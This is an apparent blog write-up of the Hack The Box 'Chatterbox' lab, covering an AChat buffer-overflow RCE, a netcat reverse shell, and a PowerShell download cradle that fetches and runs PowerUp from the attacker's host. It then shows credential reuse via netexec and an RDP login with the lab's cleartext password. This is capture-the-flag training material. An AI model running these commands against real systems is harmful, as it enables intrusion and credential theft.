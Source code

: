 ```yaml
---

layout: /src/layouts/MarkdownPostLayout_HTB.astro
title: Chatterbox Hackthebox Write-Up
author: Adrian Reategui
description: "Chatterbox machine from hackthebox is an easy windows machine were we're gonna exploit an HTTP service in order to obtain credentials to connect to the victim machine using RDP."
image:
  url: "/images/posts/Chatterbox.webp"
  alt: "Chatterbox machine from hackthebox is an easy windows machine were we're gonna exploit an HTTP service in order to obtain credentials to connect to the victim machine using RDP."
pubDate: 2025-04-04
tags:
  [
    "Windows", "Hackthebox", "Achat", "Writeup", "RDP"
  ]
languages: []

---
```


<!-- ![alt](./Chatterbox/efeeleprofile.webp) -->
## 📝 SUMMARY
 This machine has one HTTP service running on port 9255 however when trying to access to the url I didnt show any content at all, so doing research I found a Remote Execution BOF exploit in exploit database, I then change the script with my payload and I was able to recieved a ping, so I then was able to send a revershell to my kali machine, enumerating the system didnt find anything interesting, however when using PowerUp.ps1 I found Alfred's credentials in clear text, so I decided to try them with the Administrator and it was pwned! However when trying to read the root flag eventhough i was an administrator i wasnt able to, so i decided to open up RDP port and access to it using rdesktop being able to read the flag

## 📄 NMAP SCAN
```python
	# Nmap 7.95 scan initiated Thu May  8 14:23:25 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 -oN targeted 10.10.10.74
	Nmap scan report for 10.10.10.74
	Host is up (0.27s latency).
	
	PORT      STATE SERVICE      VERSION
	135/tcp   open  msrpc        Microsoft Windows RPC
	139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
	9255/tcp  open  http         AChat chat system httpd
	|_http-title: Site doesn't have a title.
	|_http-server-header: AChat
	9256/tcp  open  achat        AChat chat system
	49152/tcp open  msrpc        Microsoft Windows RPC
	49153/tcp open  msrpc        Microsoft Windows RPC
	49154/tcp open  msrpc        Microsoft Windows RPC
	49155/tcp open  msrpc        Microsoft Windows RPC
	49156/tcp open  msrpc        Microsoft Windows RPC
	49157/tcp open  msrpc        Microsoft Windows RPC
	Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows
	
	Host script results:
	| smb-os-discovery: 
	|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
	|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
	|   Computer name: Chatterbox
	|   NetBIOS computer name: CHATTERBOX\x00
	|   Workgroup: WORKGROUP\x00
	|_  System time: 2025-05-08T05:24:37-04:00
	| smb-security-mode: 
	|   account_used: <blank>
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2:1:0: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2025-05-08T09:24:39
	|_  start_date: 2025-05-08T09:21:53
	|_clock-skew: mean: 6h20m00s, deviation: 2h18m34s, median: 4h59m59s
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Thu May  8 14:24:52 2025 -- 1 IP address (1 host up) scanned in 87.19 seconds

```
## 🔍 ENUMERATION
- We found a **Achat** service that is running on port 9255 however we cant access to the webpage, when searching for exploit we found a RCE trough a BOF
![alt](/images/posts/chatterbox.png)
- I then created a payload to send a ping to my kali machine
![alt](/images/posts/chatterbox2.webp)
- Then i modified the script to add my payload and when i ran it i received a ping to my kali machine!
```bash
   sudo tcpdump -i tun0 icmp
```
![alt](/images/posts/chatterbox3.webp)
- I then downloaded the nc.exe binary to my kali machine and crafted a payload to connect to my smbserver to access the nc.exe and send a revershell to my kali machine
![alt](/images/posts/chatterbox4.webp)

![alt](/images/posts/chatterbox5.webp)
- And I received a connection as the user alfred!
```bash
   rlwrap -cAr nc -nlvp 443
```
![alt](/images/posts/chatterbox6.webp)
## USER FLAG
```c#
	C:\>whoami & ipconfig & type C:\Users\alfred\Desktop\user.txt
	whoami & ipconfig & type C:\Users\alfred\Desktop\user.txt
	chatterbox\alfred
	
	Windows IP Configuration
	
	
	Ethernet adapter Local Area Connection 4:
	
	   Connection-specific DNS Suffix  . : 
	   IPv4 Address. . . . . . . . . . . : 10.10.10.74
	   Subnet Mask . . . . . . . . . . . : 255.255.255.0
	   Default Gateway . . . . . . . . . : 10.10.10.2
	
	Tunnel adapter isatap.{111D2FF5-EF2C-4D77-B44C-DBCE3AAABF4B}:
	
	   Media State . . . . . . . . . . . : Media disconnected
	   Connection-specific DNS Suffix  . : 
	ebdac18bc919737b4dc8b172639276b8
```
## 🚀 PRIVILEGE ESCALATION
- We use PowerUp to find possibles ways to escalate our privilege and we found alfred credentials in clear text
```powershell
   IEX(New-Object Net.WebClient).downloadString('http://10.10.14.22/PowerUp.ps1')
```
![alt](/images/posts/chatterbox7.webp)
- Using netexec we try Alfred password as the administrator password and it was correct!
```bash
   netexec smb 10.10.10.74 -u 'Administrator' -p 'Welcome1!'
```
![alt](/images/posts/chatterbox8.webp)
## ROOT FLAG
- I opened rdp port and connected using rdesktop and I was then able to read the users root.txt
```bash
   rdesktop -u Administrator -p 'Welcome1!' 10.10.10.74
```
![alt](/images/posts/chatterbox10.webp)
![alt](/images/posts/chatterbox9.webp)
